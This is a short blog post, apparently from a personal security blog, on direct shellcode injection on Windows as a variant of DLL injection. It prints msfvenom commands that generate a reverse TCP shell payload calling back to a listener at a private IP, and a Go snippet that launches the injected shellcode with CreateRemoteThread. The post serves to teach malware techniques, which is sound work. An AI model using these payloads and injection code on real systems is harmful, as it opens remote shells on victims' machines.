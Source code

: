 ```yaml
---
title: Direct Injection
permalink: /posts/DirectInjection
permalink_name: DirectInjection
---
```


This is going to be a short post since direct injection is very similar to [DLL injection](/posts/DLLInjection) when it comes to implementation.
I will only highlight the differences between the two techniques, rather than going through the implementation completely.

So, onto the implementation.

First of all, we are going to inject shellcode directly into the target process, rather than injecting a path to a DLL. On Practical Malware Analysis this technique is labelled as “harder” since you need to write your own shellcode. Understandably, writing shellcode is probably more complex than writing a DLL in a high-level programming language.

Of course, that does not matter when you are using Metasploit to generate the payload anyway.

So while in order to create our payload DLL we would go for something like this


```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.119 LPORT=443 -f dll \
      -o reverse.dll
```

we can create our shellcode like so


```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.119 LPORT=443 -f c \
      -b \x00\x0a\x0d
```

The only other difference is in the arguments that we pass to `CreateRemoteThread`.
While with DLL injection the function we wanted to call was `LoadLibraryA` and the path to the DLL in memory was passed as an argument to it, in this case, the function we want to call is out shellcode.
So instead of passing the pointer to `LoadLibraryA` in kernel32.dll we simply pass the pointer we wrote our shellcode to, like this


```go
  r1, _, err = createRemoteThread.Call(
    uintptr(victimProcess),
    uintptr(unsafe.Pointer(nil)),
    0,
    uintptr(addr), // Unilke DLL injection, we start directly 
                   //from the shellcode and we don't pass parameters
    0,
    0,
    uintptr(unsafe.Pointer(nil)))
  if r1 == 0 {
    fmt.Println("[-] Failed to launch remote thread")
    log.Fatal(err)
  }
```

And sure enough this works as inteded :)

Please find the code [here](https://github.com/giacomo270197/Malware_Techniques_Implementations/blob/main/src/injectors/shellcode_injection/injector.go)
